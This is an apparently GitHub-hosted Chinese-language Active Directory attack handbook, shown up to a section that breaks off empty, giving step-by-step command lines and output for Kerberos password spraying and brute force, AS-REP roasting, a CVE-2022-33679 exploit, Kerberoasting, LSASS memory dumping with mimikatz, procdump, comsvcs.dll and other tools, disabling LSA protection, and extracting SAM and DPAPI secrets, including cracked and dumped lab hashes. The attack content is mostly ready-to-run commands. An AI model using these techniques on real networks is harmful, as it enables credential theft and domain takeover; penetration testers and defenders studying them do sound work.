

### <span style="color:#F98B26">2.1.3.2 密码喷洒</span>

```
在常规的爆破中,我们都是先用很多密码去碰撞一个账号,这样很容易导致账号被锁定.

而密码喷洒就是先用一个密码去碰撞很多账号,此方法能有效地避免账号被锁定的问题.
通过账号名枚举获取了域用户之后,进行密码喷洒.
```

```
喷洒原理:

在确认用户存在后,客户端又会发送一个AS-REQ请求,如果密码正确,则返回AS-REP.
否则返回KRB5KDC_ERR_PREAUTH_FAILED

密码正确:AS-REP
密码错误:KRB5KDC_ERR_PREAUTH_FAILED
```

```
使用kerbrute工具利用进行密码喷洒

kerbrute passwordspray -d blackops.local user.txt P@ssw0rd --dc 192.168.0.56
```



### <span style="color:#F98B26">2.1.3.3 密码爆破</span>

```
密码爆破是指使用域用户与多个密码进行碰撞.
在碰撞过程中,当密码错误尝试次数超过组策略中指定的次数就会导致账户被锁定.
```

```
攻击流程:

使用kerbrute工具进行爆破

kerbrute bruteuser --dc 192.168.0.56 -d blackops.local passwords.txt fsociety
```



### <span style="color:#F98B26">2.1.3.4 存在不需要预身份认证</span>

```
1. AS-REP Roasting攻击

如果用户开启了不使用kerberos预认证,在AS-REP 阶段,可以在任意一台能访问DC的机器(域内域外均可)上请求该用户TGT,
此时DC不会做校验就将TGT和Session Key返回,
则可对Session Key (经过用户的RC4-HMAC密码加密) 进行离线暴力破解,进而获取hash以及密码明文.
```
https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/
```
攻击流程:

Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt

hashcat -m 18200 --force -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$fsociety@blackops.local:993487b4ff673ec81e4de2467f4e06f7$4daf486c683c765fa8e3d7f63c8ceaf43697dcdbece7e99e29e9740918f4a2bc914dc3c7c12e2929adf29fc9fcadfb84d9a35a869d51dafd8b26187b647b653f02a516098f8bb54ebd7eab0a38d57e6ce668a86e835f29ea29cb81343750c80e135406ac36f827b4c1ef2c3f4c3285e0014a4e26a47971b0fae2dd55823fd1688dd380404ac9897606befad3d7aa8a7ed40fa3985edfca0226ecc469bbd58846e36a7299e114bb532160dd5f70b2a76d1579e2b774bfc272b3e0368874824373c22834d8d5bd7bb7bf50dda8c03c1b5e1c383d5d38864edd54d25c979546bf4a2ff04fcc7a6fc4a0fa42e341a1e84d80:P@ssw0rd
```



```
2. CVE-2022-33679

该漏洞导致攻击者可请求设置了 "不要求kerberos预身份验证"的用户的TGT票据,
并对AS-REP中加密 session_key 使用的秘钥流进行破解,从而实现权限提升.
```

https://www.horizon3.ai/attack-research/attack-blogs/from-cve-2022-33679-to-unauthenticated-kerberoasting/

```
漏洞利用:

python3 CVE-2022-33679.py blackops.local/fsociety dc.blackops.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT - Retrieving AS-REP
[*] Trying to recover the RC4 Flow
[*] Byte 0: e8
[*] Byte 1: 4f
[*] Byte 2: 67
[*] Byte 3: de
[*] Byte 4: d1
[*] Recovered Session key: ed80fddf85ababababababababababab
[*] Got TGS for dc.blackops.local
[*] Saving ticket in fsociety_dc.blackops.local.ccache

export KRB5CCNAME=fsociety_dc.blackops.local.ccache

python3 /usr/share/doc/python3-impacket/examples/smbclient.py -k -no-pass blackops.local/fsociety@dc.blackops.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# use SYSVOL
# ls
drw-rw-rw-          0  Mon Jun 13 16:29:30 2022 .
drw-rw-rw-          0  Mon Jun 13 16:29:30 2022 ..
drw-rw-rw-          0  Mon Jun 13 16:29:30 2022 blackops.local
```
https://github.com/Bdenneu/CVE-2022-33679.git

### <span style="color:lightgreen">2.2 拥有账户名和密码场景</span>
### <span style="color:#F98B26">2.2.1 本地管理员</span>
### <span style="color:#F98B26">2.2.1.1 Dump lsass</span>

```
凭证转储是攻击者用来破坏基础设施的最常用技术之一.
它允许窃取敏感的凭证信息,并使攻击者能够在目标环境中进一步横向移动.

负责此操作的进程是lsass.exe,我们需要转储lsass进程的内存.
```

```
1. mimikatz

Mimikatz是一种非常流行的后渗透利用工具,可用于转储lsass进程并从中提取NTLM哈希值.

攻击流程:

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

```
2. Procdump

Procdump是微软官方的工具,使用该工具可以把lsass的内存dump下来,可以绕过大多数的防护软件.
lsass进程里面存放着我们登录的账号密码等信息.
只要登录机器那么lass进程就会记录你的登录凭证,通过lsass我们就能够获取到机器的明文密码和hash.

首先使用procdump将lsaa中的内存dump下来.
lsass进程获取内存hash,lsass.exe进程会保存机器登录过的用户密码(2008之前密码是明文存储,2012和2016都是密文hash存储)

攻击流程:

procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

```
3. QuarksPwDump

支持Windows XP/2003/Vista/7/2008版本,稳定.
可抓取windows用户凭据,包括:本地账户,域用户,缓存的域账号和Bitlocker

攻击流程:

quarks-pwdump.exe --dump-hash-local
```

```
4. PwDump7

Pwdump7 从文件系统中提取二进制文件SAM和SYSTEM文件来运行,然后提取哈希值.

C:\Users\Administrator\Desktop\pwdump-master>PwDump7.exe
Pwdump v7.1 - raw password extractor
Author: Andres Tarasco Acuna
url: http://www.514.es

Administrator:500:C9A384267FD78F7AFC74BA281EA484BC:6E752C9FD7AA4C144171F043249E5FD4:::
Guest:501:F7E9D61425661494CF8E483AC94651A3:2B7462EF81B22006487A4E5C356B7D60:::
:503:40939CB3C5D7FDEBB8862601A69B71E7:2E5FA8499015497AFC6E0A581C6DF3BA:::
Σ:504:NO PASSWORD*********************:NO PASSWORD*********************:::
```

```
5. createdump

https://twitter.com/bopin2020/status/1366400799199272960/photo/1
https://lolbas-project.github.io/lolbas/OtherMSBinaries/Createdump/
```



```
6. Avdump

AvDump.exe是Avast杀软自带程序,可用于转储指定进程内存数据,带有Avast杀软数字签名
https://github.com/f1tz/Misc/tree/master/AvDump
```

```
7. DumpMinitool

DumpMinitool.exe --file dump.txt --processId 696 --dumpType Full
Dump minitool: Started with arguments --file dump.txt --processId 696 --dumpType Full
Output file: 'dump.txt'
Process id: 696
Dump type: Full
Dumped process.

mimikatz # sekurlsa::minidump C:\Users\Administrator\Desktop\dump.txt
Switch to MINIDUMP : 'C:\Users\Administrator\Desktop\dump.txt'

mimikatz # sekurlsa::logonpasswords
```

```
8. MalSeclogon

https://github.com/antonioCoco/MalSeclogon

MalSeclogon.exe -p 696 -d 1
Attempt to leak process handles from lsass: 0x03e0 0x05b8 0x0690...
Lsass dump created with leaked handle! Check the path C:\lsass.dmp
```

```
9. comsvcs.dll

rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id Desktop\lsass-comsvcs.dmp full
```

```
10. nanodump

https://github.com/fortra/nanodump

nanodump.x64.exe --fork -w lsass.dmp
The minidump has an invalid signature, restore it running:
scripts/restore_signature lsass.dmp
Done, to get the secretz run:
python3 -m pypykatz lsa minidump lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

### <span style="color:#F98B26">2.2.1.2 绕过LSA防护策略读取密码</span>
https://itm4n.github.io/lsass-runasppl/
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 00000001 /f

C:\Users\Administrator\Desktop>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

```
绕过LSA保护并转储缓存的票据

删除RunAsPPL 注册表项并再次重新启动系统.
这不是一个实用的方法,一旦我们重启系统,会丢失缓存在内存上的额所有凭据.

通过修补EPROCESS内核结构来禁用LSASS进程上的PPL标注.
PPL保护由驻留在与目标进程关联的EPROCESS内核对象中的位控制.
如果我们能够在内核空间中获得代码执行,我们就可以禁用LSA保护并转储凭据.

直接读取LSASS进程内存内容,而不是使用打开的进程函数.
```

```
采用操作SAM的方式 获取凭据

mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

```
1. mimikatz驱动加载

通过加载驱动来移除 Lsa Protection,mimikatz提供Mimidrv.sys驱动,
Mimidrv.sys已经签名的Windows驱动模型(WDM)内核模式软件驱动程序.

mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
```

```
2. PPLKiller

https://github.com/RedCursorSecurityConsulting/PPLKiller

PPLKiller.exe /installDriver
PPLKiller.exe /disableLSAProtection
```

### <span style="color:#F98B26">2.2.1.3 查看本地存储的所有密码</span>

```
SAM是管理所有用户账号及其密码的安全账户管理器的缩写.
它充当数据库.
所有密码都经过哈希处理,然后存储为SAM.
LSA负责通过将密码与SAM中维护的数据库进行匹配来验证用户登录.

Windows启动后,SAM即开始在后台运行.
SAM位于C:\Windows\System32\config 中,散列并保存在SAM中的密码可以在注册表中找到,只需打开注册表编辑器并导航到
HKEY_LOCAL_MACHINE\SAM即可.
```

```
1. mimikatz

要想从SECURITY 和SAM配置单元文件中获得凭据,
可以使用mimikatz从内存中读取它们.

首先,执行token::elevate获得一个SYSTEM会话,
这样就可以读取凭据了.

如果需要的话,还要执行privilege::debug 命令来授予SeDebugPrivilege权限.

攻击流程:

mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

```
2. Reg save命令

https://www.praetorian.com/blog/how-to-detect-and-dump-credentials-from-the-windows-registry/
https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets

首先,需要转储注册表的配置单元.
为此,需要借助于SECURITY和SAM配置单元以及SYSTEM配置单元,
因为其中包含系统Boot Key (或System Key),可用于解密SECURITY和SAM配置单元

reg save HKLM\SYSTEM system.bin
reg save HKLM\SECURITY security.bin
reg save HKLM\SAM sam.bin

使用secretsdump进行转储:

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bin -system system.bin -security security.bin LOCAL
```

### <span style="color:#F98B26">2.2.1.4 DPAPI解密</span>

```
DPAPI提供了一组简单的API,可以使用绑定到特定用户或系统的隐士加密秘钥轻松加密和解密不透明数据.
这允许应用程序保护用户数据,而不必担心秘钥管理之类的事情.

对于windows系统,用户的加密数据大都采用DPAPI进行存储,而不需要解密这些数据,必须要获得DPAPI对应的
Masterkey.
```

```
mimikatz获取:

通过读取lsass进程信息,获取当前系统中的Masterkey,能获得多个Master key file对应的Masterkey

mimikatz # privilege::debug
mimikatz # sekurlsa::dpapi
```

https://ad-lab.gitbook.io/building-a-windows-ad-lab/vulnerabilities-and-misconfigurations-and-attacks/misc/different-methods-of-dumping-credentials/page-3

```
离线获取

reg save HKLM\SYSTEM system.bin
reg save HKLM\SECURITY security.bin


lsadump::secrets /system:system.bin /security:security.bin
```

```
待研究
```

### <span style="color:#F98B26">2.2.2 普通域用户</span>
### <span style="color:#F98B26">2.2.2.1 枚举SMB共享</span>

```
SMB 全称是 Server Message Block(服务器消息块)，又称网络文件共享系统，是一种应用层网络传输协议
SMB 被广泛地应用于在计算机间共享文件、端口、命名管道和打印机等
系统上的不同应用程序可以同时读取和写入文件，并向服务器请求服务

此外，SMB可以直接在 TCP/IP 或其他网络协议上运行
通过 SMB，用户或任何经授权的应用程序都可以访问远程服务器上的文件或其他资源，并且可以执行读取、创建和更新数据等操作

通常，服务器上有 SMB 共享驱动器，可以连接到该驱动器并用于查看或传输文件
接下来介绍接种方法来进行枚举域控的 smb 共享
```

```
1. crackmapexec

crackmapexec (CME) 是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务

crackmapexec smb 192.168.0.56 -u fsociety -p P@ssw0rd --shares
```



```
2. smbclient

smbclient 工具可以用于访问和操作共享文件夹、上传和下载文件，以及执行各种与 SMB 协议相关的操作
它可以通过命令行界面(CLI)进行操作，并提供了多种选项和参数，使用户能够定制其行为以满足特定需求

smbclient -L 192.168.0.56 -U fsociety --password P@ssw0rd
```



### <span style="color:#F98B26">2.2.2.2 域信息收集</span>

```
1. BloodHound

攻击者可以使用 BloodHound 轻松识别原本无法快速识别的高度复杂的攻击路径
防御者可以使用 BloodHound 来识别并消除这些相同的攻击路径

蓝队和红队都可以使用 BloodHound 轻松深入地了解 Active Directory 或 Azure 环境中的权限关系
```

```
SharpHound.exe -c all
```



```
2. Adexplorer

Active Directory Explorer(AD Explorer)是微软的一款域内信息查询工具，它是独立的可执行文件，无需安装
它能够列出域组织架构、用户账号、计算机账号等，它可以帮助你寻找特权用户和数据库服务器等敏感目标

ADExplorer64.exe -snapshot "" result.dat /accepteula

将Adexplorer导出的快照文件可以使用ADExplorerSnapshot.py工具转换为 json 格式的文件导入到 bloodhound(v4,2 版本以上)中进行图形化分析
```

```
python3 ADExplorerSnapshot.py result.dat -o result
```

### <span style="color:#F98B26">2.2.2.3 kerberoasting 攻击</span>
https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
```
漏洞原理:

当域内用户去请求域内某个服务资源时，先会通过 AS 进行身份认证，通过后会返回一个用用户密码 hash 加密的 TGT 给用户，用户拿着 TGT 向 TGS 去请求，TGS 会返回一个用对应服务账号的密码 hash 加密过的专门用于访问特定服务的服务票据回来，只要用户提供的票据正确，服务就会返回自身 hash 加密的tgs 票据

那么如果我们有一个域用户，就可以申请服务的 tgs 票据，本地爆破服务 hash 得到服务密码，kerberos 协议使用的加密可以使用 y=f(x,key)来表示，算法f为已知的对称加密算法如 rc4_hmac_nt，密钥 key 为 ntlm 值，待加密数据x为用户名，主机 IP，和当前时间戳等，当获取到y即加密后的数据(tgs 票据)，即可爆破密钥，密钥越简单，被破解的几率越大，这个过程叫做 Kerberoasting
```

```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py blackops.local/fsociety:P@ssw0rd -dc-ip 192.168.0.56 -request

hashcat -m 13100 -o cracked.txt -a 0 Hash.txt wordlist.txt
```

### <span style="color:#F98B26">2.2.2.4 ms14-068</span>

```
Kerberos域用户提权漏洞(MS14-068，CVE-2014-6324)，影响版本 Windows Server2003、Windows Server 2008、Windows Server 2008 R2、Windows Server 2012 和 WindowsServer 2012 R2
```

https://0range-x.github.io/2021/09/25/MS14-068%E5%8E%9F%E7%90%86%E6%B5%85%E6%9E%90/

### <span style="color:#F98B26">2.2.2.5 printnightmare 漏洞</span>
https://itm4n.github.io/printnightmare-exploitation/
https://www.thehacker.recipes/ad/movement/print-spooler-service/printnightmare

```
CVE-2021-1675/CVE-2021-34527 PrintNightmare 是 RpcAddPrinterDriver 中的一个漏洞
该漏洞用于允许远程打印和驱动程序安装

该函数旨在为具有Windows 特权 SeLoadDriverPrivilege 的用户提供向远程打印池添加驱动程序的能力
这个权限通常保留给内置 Administrators 组和可能有合法需要在远程终端用户机器上安装打印机驱动程序的 Print Operators 组的用户

这个漏洞允许任何经过身份验证的用户在没有上述特权的情况下向 Windows 系统添加打印驱动程序，从而使攻击者能够在受影响的系统上完全远程执行代码，权限为 SYSTEM

该漏洞影响了所有受支持的 Windows 版本，由于打印机默认在域控制器、Windows7和 10上运行
并且通常在 Windows 服务器上启用，因此存在广泛的攻击面
```
https://github.com/calebstewart/CVE-2021-1675

### <span style="color:#F98B26">2.2.2.6 NTLM Relay</span>

```

```